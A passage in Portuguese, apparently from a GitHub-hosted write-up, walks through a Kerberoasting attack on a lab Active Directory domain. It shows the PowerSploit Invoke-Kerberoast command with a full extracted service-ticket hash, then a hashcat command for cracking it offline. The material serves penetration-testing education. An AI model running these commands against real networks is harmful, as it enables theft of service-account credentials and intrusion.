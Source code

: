 Após a enumeração, como informado anteriormente, o atacante de posse do TGT precisa requisitar o TGS para o serviço alvo assinado pela conta do usuário/computador correspondente. A extração do ticket criptografado do TGS-REP, pode ser executada utilizando o módulo [Invoke-Kerberoast](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/) presente no toolkit [PowerSploit](https://github.com/PowerShellMafia/PowerSploit).

```powershell
PS C:\Users\charris\Desktop> Invoke-Kerberoast -domain hnr.local -OutputFormat Hashcat                                                                                                               

TicketByteHexStream  :
Hash                 : $krb5tgs$23$*sqlserver$hnr.local$MSSQLSvc/SQL.hnr.local:1433*$6EB0AF7AF18FE1BD3B1033840C3848CB$58E8E31B0086B724DA67DFA11BC6C2A6B36399DFD60A6DD935CD850BE8C9365821A04A6F4F113B
                       6CC178A80467DCB6AFE6DA14F2A8286BD91A079A795B77084DBDD876323FE5A9130E215E3F8D2E763D9F21840091336DCB315082C29BDC6A3E34A94DB26A8DDA2E007DF3DE085A1030FDAC24AF832C100FC7BBB6D00EE
                       CC8A375C7408EA858BBF746A0754BF58DE9D39646636F6B228D97DEBED70960CCBC1B6A6EC01936C9744CC6D43E38518AA24A84E3353E9AA3DB31E6FFA8D15917F10BF97E1909D70276F9B0C33ACB1B05DE912DDF9BE6
                       DA50BD35CE3A295AF29B8D530F2EAEDDAEFDC34A8BC0C05C3C592B4D1A5F296C20B9A37B7B08F4D19955C08A53BC80C8DDEE168D26E726FAD832355DF45583B78D70C8EE676B6838D155A864763667FFF2048D2BD4D35
                       F34EF06BD7E387EDC08402D8703CE635710B1A33E352225A680FE15F2F1F6D3B26D91B1C7616F1B558759EF82B4350E846D7245CAD30D65C1CDB39E2DBC34C8E1F9ECC4744BF75302EBADEA2BF8B40BB234307916CAC4
                       78A89A42062908F41FA1241B1489AE45731E2AEE521C5B56805C2C2152E117C42AC1BAE2159806F8F42D9463D7B2ED710F5BA85FC60D0988DCA6C70551DC95F2E2248B2F1E287CD156FB9B13356E9EE797D9FF17E0231
                       BE8406669AD7EEC934CB17F863BFB7DC545E0106BFE09DF621F9922C514D9242E07F2395F3286D78ADE0AAC6EC18D8CB3414018B9D82ECB39B1258805D0953AA564179BD60F2E8361671081304AEB06BB5D53F48F87BE
                       416FB203F14F835C841919E542D0C381D06EC1ACA47EDB88950EDFE7D6BAC6EA91FD806F21431A4B19179D34FCEF03D4774EFEA272FEDDC6D6BCBAD9E8E366DF8ECF9DB571857978DEF90727E92E49AA1795A5EFE7C7B
                       A57BD02FA28AD95DD9639EC5BDE3F3C229AC94AE20F574186334132084A94BBB0AC963E070AB9D5BF33D57EDAF43B653736FECA62B4C5414C5E68357527C0AB1E3C1F8B9306601DC3DA93D573C880642965F9AC587CB5
                       052ABF1E667D418CC3AB0B7D236D8B33A45FB328C094603C4388BCE467DD2EEA580130564541C31AE3CA1DE10F244DC05F4FA8F405A5C1B6D1C5C79A885C2BCD1A505989B70F005884BD639170E3C1147823ECC9EFFB0
                       A03C2B718595719DB8AD60A74AE06A92CB917B05E43E09D3993A5BACA5F656072294B9ECC64BC028C685358455935F7FC96E76A81E4771CA0BDDCB23346708B0B4EFE6929050846B6404D784A989F5A29EEA422E34225
                       44DDC77FB1B191249E2D7D19405F094A2934F5C1BF7DDCA532236C77EA98E76BB47F8391F39DECC3E64BF9667B8D28491CF09EBC28A0AF17E33C88E02BAD1346396BE2E2D75A079218ED683A2EB466B34EF5C274FE3A8
                       62BD89A260088C356201934C783D4166827F30DA0DAF4D2162DB215362BD299CFBE5B3D1855C1E70CFDEA5C5024FC4B6090B9037194F38EF884DCE5FE8DA037638EF2F11B93C8382D282BD0D761F697795D7AD38D9B75
                       198AF91F92E0D2A11595F3E6D63113165A8849DD8150284312D3AFB6047F88F5C88F76E1
SamAccountName       : sqlserver
DistinguishedName    : CN=SQLServer,CN=Managed Service Accounts,DC=hnr,DC=local
ServicePrincipalName : MSSQLSvc/SQL.hnr.local:1433
```
Com a extração do hash, o ataque se dá offline através da tentativa de descoberta da credencial utilizando wordlists em um processo de "quebra" do hash mencionado. Para exemplificar, foi utilizada como ferramenta o [HashCat](https://hashcat.net/hashcat/).

```
hashcat-5.1.0 ./hashcat64.bin -a 0 -m 13100 hash.txt ~/tools/wordlist/br-wordlist.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: GeForce GPU, 500/2000 MB allocatable, 5MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Minimum password length supported by kernel: 0
```